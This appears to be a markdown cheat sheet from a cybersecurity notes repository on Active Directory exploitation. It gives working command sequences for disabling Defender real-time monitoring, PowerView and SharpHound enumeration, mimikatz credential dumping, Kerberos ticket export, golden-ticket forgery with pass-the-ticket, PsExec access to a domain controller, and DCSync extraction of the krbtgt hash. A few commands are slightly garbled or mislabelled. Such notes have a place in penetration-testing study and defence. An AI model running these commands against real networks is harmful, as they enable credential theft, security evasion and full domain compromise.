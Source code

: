 # Active Directory Exploitation

---

[Back to Table of Contents](../cysec)

># Overview
 - Overview
 - Enumeration and Exploitation Tools
 - Genera Exploitation Pathway Examples

---
## AD: General Pathways

A few of the many exploitation pathways:
 - Exploiting a web-app --> lateral movement throughout the network --> domain compromise
 - Exploiting a network/service vulnerability --> lateral movement throughout the network --> domain compromise
 - Exploiting a client-side attack to compromise a user --> later movement --> domain compromise

Methods:
 - Pass-The-Hash 
 - Pass-The-Ticket
 - Overpass-The-Hash
 - Kerberoasting
 - As-Rep Roasting
 - Golden Ticket
 - Silver Ticket
 - Password Spraying
 - 

---
## AD: Enumeration and Assessment

After gaining access to a machine within an AD network, it is essential to enumerate the environment and
understand the network, the domain, the machines within it, and where the compromised machine stands in relation
to the environment (permissions, groups, routes to admin, etc.).

Enumeration of AD can be done in various ways and many tools exist. Among them, some of the most popular and useful include sharphound/bloodhound, 
powerview, impacket, and of course, powershell.

---
## Useful Resources:
https://wadcoms.github.io/

https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/active-directory-enumeration-with-powerview

https://book.hacktricks.xyz/windows-hardening/active-directory-methodology

---
## Tools
- The impacket suite:
  - psexec.py
  - wmiexec.py
  - smbexec.py
- crackmapexec
- powerview
- sharphound / bloodhound
- mimikatz
- pypykatz
- winpeas / windows privescheck
- ldapmonitor
- responder
- rubeus
- kerbrute


---

### Powerview

Disable Monitoring
```
Set-MpPreference -DisableRealtimeMonitoring $true
```

Get Domain Info
```
Get-Domain
Get-DomainController
Get-Domain -Domain domain.local
Get-DomainController -Domain domain.local
Get-DomainUser
Get-DomainSID
Get-DomainPolicy
(Get-DomainPolicy)."SystemAccess"
Invoke-ShareFinder
Invoke-MapDomainTrust
```
---

### Using Bloodhound
File transfer --> download sharphound --> exfiltrate the data --> view data in bloodhound
--> identify valuable accounts or pathways within the domain --> use relevant tools to try to exploit those accounts
and move laterally

```powershell
.\sharphound.exe -c Default, GPOLocalGroup, LoggedOn --zipfilename output
```
---
Use mimikatz to find vulnerable accounts with weak passwords to be used for further exploitation:
```powershell
privilege::debug

sekurlsa::logonPasswords
 ```
---
## Pass the Ticket Example

Identify service principals:
 - Get-UserSPNs.ps1

Request ticket for vulnerable SPN (this can be done with mimikatz or via powershell):

powershell method:
```
Add-Type –AssemblyName System.IdentityModel

New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken –ArgumentList ‘SPN'
```

mimikatz method:
After getting an SPN with domain controller access or access for lateral movement:
(example - SPN is mssqlserver)
```
kerberos::purge
kerberos::list
kerberos::ask /target:mssqlserver
kerberos::list /export
```

```powershell

kerberos::golden /user:admin /domain:corp.com /sid:S-1-5-21-xxx-xxxx-xxxxx /target:domain.com /service:MSSQLServer /rc4:hash /ptt


```

Accessing the DC with Admin privileges:

```
PsExec64.exe \\domain-dc01\ cmd.exe 
```
```
pushd \\domain-dc01\c$
cd \\domain-dc01\c$
```

```
lsaDump::dcsync /user:krbtgt

clsadump::lsa /inject /name:krbtgt

```
